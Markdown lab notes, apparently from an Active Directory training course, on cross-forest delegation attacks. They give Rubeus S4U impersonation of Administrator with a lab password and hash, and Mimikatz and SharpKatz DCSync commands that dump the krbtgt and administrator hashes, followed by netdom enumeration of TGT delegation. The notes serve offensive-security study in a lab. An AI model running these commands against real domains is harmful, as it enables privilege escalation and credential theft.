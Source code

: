 # Cross Forest Attacks - Delegations

- [Cross Forest Attacks - Delegations](#cross-forest-attacks---delegations)
  - [Privilege Escalation - Constrained Delegation with Protocol Transition](#privilege-escalation---constrained-delegation-with-protocol-transition)
  - [Cross Forest - Unconstrained Delegation](#cross-forest---unconstrained-delegation)

---

## Privilege Escalation - Constrained Delegation with Protocol Transition

The classic Constrained Delegation does not work across forest trusts, but we can abuse it once we have a beachhead/foothold across forest trust.

- PowerView

```
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local
```

- AD Module

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

<br/>

We can request an alternate ticket using Rubeus:

```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:068A0A7194F8884732E4F5A7CB47E17C /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

<br/>

Abuse the TGS to LDAP:

- Mimikatz

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'
```

- SharpKatz.exe

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

<br/>

## Cross Forest - Unconstrained Delegation

Recall the Printer bug and its abuse from a machine with Unconstrained Delegation - we have used it to escalate privileges to Domain Admin and Enterprise Admin.

- It also works across a **Two-way forest trust with TGT Delegation** enabled!

**TGT Delegation is disabled by default** and must be explicitly enabled across a trust for the trusted (target) forest.

In the lab, `TGTDelegation` is set from `usvendor.local `to techcorp.local (but not set for the other direction).

<br/>

**Enumeration**

To enumerate if `TGTDelegation` is enabled across a forest trust, run the below command from a DC:

```
netdom trust <trustingforest> /domain:<trustedforest> /EnableTgtDelegation
```

```
LAB: See if `usvendor.local` trusts `techcorp.local`

netdom trust usvendor.local /domain:techcorp.local /EnableTgtDelegation
```

Note:
The PowerShell cmdlets of the ADModule seems to have a bug, the below command shows TGTDelegation set to False:
`Get-ADTrust -server usvendor.local -Filter *`
- But when run from `usvendor-dc`, it shows `TGTDelegation` to be `True`.

<br/>

